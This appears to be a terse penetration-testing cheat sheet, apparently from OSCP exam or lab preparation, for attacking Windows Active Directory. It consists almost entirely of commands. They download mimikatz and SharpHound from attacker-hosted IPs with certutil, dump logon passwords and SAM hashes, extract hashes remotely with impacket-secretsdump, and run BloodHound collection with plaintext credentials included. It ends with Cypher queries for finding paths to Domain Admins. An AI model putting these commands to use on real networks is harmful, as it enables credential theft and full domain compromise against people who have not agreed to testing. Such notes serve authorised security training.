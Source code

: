 ```jsx
240.0.0.1 nagoya.nagoya-industries.com
```

## Mimikatz

```jsx
certutil -urlcache -split -f http://192.168.45.241/mimikatz.exe
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

token::elevate
lsadump::sam
```

```jsx
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::msv" "lsadump::sam" "exit"
```

### impacket-secretsdump

Surely we can extract with secretsdump from ntds, system or sam that we grab. But more we can extract passwords remotely!

```jsx
impacket-secretsdump oscp/emmet@10.10.1.202
```

## Bloodhound

```jsx
certutil -urlcache -split -f http://192.168.45.171/SharpHound.ps1
Import-Module .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Windows\Temp\
```

```jsx
netexec ldap nara.nara-security.com -u Tracy.White -p 'zqwj041FGX' --bloodhound -c all -ns 192.168.181.30
netexec ldap dc01.oscp.exam -u web_svc -p 'Diamond1' --bloodhound -c all -ns 10.10.184.146
```

```jsx
sudo neo4j start
```

```jsx
bloodhound
```

```jsx
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

```jsx
MATCH p=shortestPath((n)-[:Owns|GenericAll|GenericWrite|WriteOwner|WriteDacl|MemberOf|ForceChangePassword|AllExtendedRights|AddMember|HasSession|Contains|GPLink|AllowedToDelegate|TrustedBy|AllowedToAct|AdminTo|CanPSRemote|CanRDP|ExecuteDCOM|HasSIDHistory|AddSelf|DCSync|ReadLAPSPassword|ReadGMSAPassword|DumpSMSAPassword|SQLAdmin|AddAllowedToAct|WriteSPN|AddKeyCredentialLink|SyncLAPSPassword|WriteAccountRestrictions|GoldenCert|ADCSESC1|ADCSESC3|ADCSESC4|ADCSESC5|ADCSESC6a|ADCSESC6b|ADCSESC7|ADCSESC9a|ADCSESC9b|ADCSESC10a|ADCSESC10b|ADCSESC13|DCFor*1..]->(g:Group))
WHERE g.objectid ENDS WITH "-512" AND n<>g
RETURN p
```
